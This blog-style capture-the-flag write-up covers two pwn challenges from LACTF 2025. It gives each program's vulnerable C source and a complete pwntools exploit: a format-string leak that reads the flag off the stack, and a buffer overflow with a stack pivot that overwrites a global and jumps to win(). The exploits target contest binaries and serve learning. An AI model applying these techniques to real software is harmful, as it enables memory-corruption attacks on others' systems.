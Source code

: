 ```yaml
---
title: "LACTF-2025"
date: 2024-10-02 00:00:00 +0800
categories: [pwn]
tags: [pwn,pivot,ret2gets,heap-overflow]
---
```


in this competition , i completed four chall . In the **Minecraft** chall , i also learned a lot about the ret2gets technique  

dowload file : [here](/assets/files/LACTF-2025.zip)
![score](assets/images/score.png)

# 2password

## reverse 

- this is warm-up chall , we will be entered 3 times , open the flag.txt  and read it into the stack

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

- Next is to use strcmp to check our input, but it doesn't do anything, we need attention to the code below

```c
printf(username)
```

Ill use this code to find the offset to the flag

```python
def generate(start: int, end: int, specifier: str = "p", seperator: str = "."):
    """ Generate a simple payload """
    payload = b""
    for i in range(start, end):
        payload += f"%{i}${specifier}{seperator}".encode()
    return payload
```

'}' in hex byte is 0x7d : 

![fsb](assets/images/fsb.png)


script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched",checksec=False)
#libc = ELF("./libc.so.6")
#ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('chall.lac.tf', 31142)

def generate(start: int, end: int, specifier: str = "p", seperator: str = "."):
    """ Generate a simple payload """
    payload = b""
    for i in range(start, end):
        payload += f"%{i}${specifier}{seperator}".encode()
    return payload

def fix(payload: bytes, seperator: str = "."):
    """ Unhex the payload and return as a string """
    rt = b""
    for i in payload.split(b'.')[:-1]: # the last one is empty
        i = i[2:] # removing the 0x
        if i[0] == 97: # remove the newline
            i = i[1:]
        rt += unhex(i)[::-1] # unhex and rev
    return rt

pl = generate(6,9)
p.sendlineafter(b'username: ',pl)

p.sendlineafter(b'password1: ',b'kuvee')
p.sendlineafter(b'password2: ',b'kuvee@@zzzzz')

p.recvuntil(b'Incorrect password for user ')
leak = p.recvline()
print(fix(leak))

p.interactive()
```

![flag](/assets/images/flag.png)

# state-change

- code is very short, we can reverse it easy , In the vuln() function there is a bug **bof** and win() func to get flag , but in **win** check **state** with **0xf1eeee2d** , we need to satisfy this condition to get flag

```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}
```

- i used **pivot** to change value of stage and return to **win** function to get flag

exp

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall')

#p = process()
p = remote('chall.lac.tf', 31593)

stage = 0x0000000000404540
offset = 32
gets = 0x00000000004012D0
pl = b'a'*32 + p64(stage+0x10) + p64(gets)
input()
p.sendafter(b'Who are you?',pl)

pl2 = b'b'*15 + p64(0xF1EEEE2D) + b'a'*16 + p64(exe.sym.win)
input()
p.sendline(pl2)


p.interactive()
```

![flag2](/assets/images/flag2.png)